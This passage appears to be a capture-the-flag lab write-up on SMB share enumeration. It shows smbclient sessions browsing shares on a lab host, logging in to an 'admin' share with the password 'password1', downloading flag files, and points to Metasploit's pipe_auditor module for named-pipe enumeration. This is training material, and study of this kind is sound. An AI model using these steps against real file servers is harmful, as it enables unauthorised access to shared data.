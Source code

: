 ```bash
smb: \> ls
  .      D  0  Tue Nov 27 19:25:12 2018
  ..     D  0  Tue Nov 27 19:25:12 2018
  admin  D  0  Tue Nov 27 19:25:12 2018
  logs   D  0  Tue Nov 27 19:25:12 2018
  flag   D  0  Tue Nov 27 19:25:12 2018
  1981084628 blocks of size 1024. 48016456 blocks available
smb: \> pwd
Current directory is \\192.174.58.3\jane\
```

![](assets/image-20230215103619604.png)

> 📌 *jane*'s share is not browsable but it exists.

```bash
smbclient //192.174.58.3/admin -U admin
# Use "password1" password
```

```bash
smb: \> ls
smb: \> cd hidden
smb: \hidden\> ls
smb: \hidden\> get flag.tar.gz 
smb: \hidden\> exit

root@attackdefense:~# tar -xf flag.tar.gz 
root@attackdefense:~# cat flag
```

```bash
smb: \> cd secret
smb: \secret\> ls
  .     D   0  Tue Nov 27 13:36:13 2018
  ..    D   0  Tue Feb 14 21:58:47 2023
  flag  N  33  Tue Nov 27 13:36:13 2018
  1981084628 blocks of size 1024. 39614508 blocks available
  
smb: \secret\> get flag
getting file \secret\flag of size 33 as flag (32.2 KiloBytes/sec) (average 32.2 KiloBytes/sec)
smb: \secret\> exit

root@attackdefense:~# cat flag 
```

<details><summary>Reveal Flag:  🚩</summary></details>

- A [named pipe](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wpo/4de75e21-36fd-440a-859b-75accc74487c) is a logical connection between a client and server involved in a SMB connection, similar to an open TCP port.
- Use [`pipe_auditor`](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe_auditor) metasploit module to enumerate the named pipes

```bash
msfconsole
```
